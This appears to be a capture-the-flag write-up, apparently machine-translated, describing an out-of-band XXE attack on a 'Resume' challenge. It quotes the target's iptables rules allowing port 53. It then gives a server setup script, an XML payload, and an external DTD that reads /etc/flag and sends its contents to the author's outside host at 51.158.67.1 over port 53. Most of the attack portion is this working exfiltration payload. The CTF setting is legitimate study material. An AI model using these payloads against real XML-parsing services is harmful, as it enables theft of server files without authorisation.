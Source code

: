 In the rules iptabes.sh is written.
```sh
## This should be one of the first rules.
## so dns lookups are already allowed for your other rules
$ IPT -A OUTPUT -p udp --dport 53 -m state --state NEW, ESTABLISHED -j ACCEPT
$ IPT -A INPUT -p udp --sport 53 -m state --state ESTABLISHED -j ACCEPT
$ IPT -A OUTPUT -p tcp --dport 53 -m state --state NEW, ESTABLISHED -j ACCEPT
$ IPT -A INPUT -p tcp --sport 53 -m state --state ESTABLISHED -j ACCEPT
```

Input and output on port 53 is enabled, we can approve of this rule.

In the challenge page we will send the payload.

![](https://github.com/andersongomes001/ctf_scripts/blob/master/FireShot%20Capture%20022%20-%20Resume%20-%2038.240.15.141.png?raw=true)

On the server let's open an http server on port 53.

start_server.sh
```
echo $(curl -s ifconfig.me/ip)
systemctl stop systemd-resolved
php -S 0.0.0.0:53
```
payload.xml
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://51.158.67.1:53/file.dtd">
<data>&send;</data>
```
file.dtd
```
<!ENTITY % file SYSTEM "file:///etc/flag">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://51.158.67.1:53/?%file;'>">
%all;
```

![](https://github.com/andersongomes001/ctf_scripts/blob/master/Captura%20de%20tela%20de%202019-11-11%2010-42-54.png?raw=true)
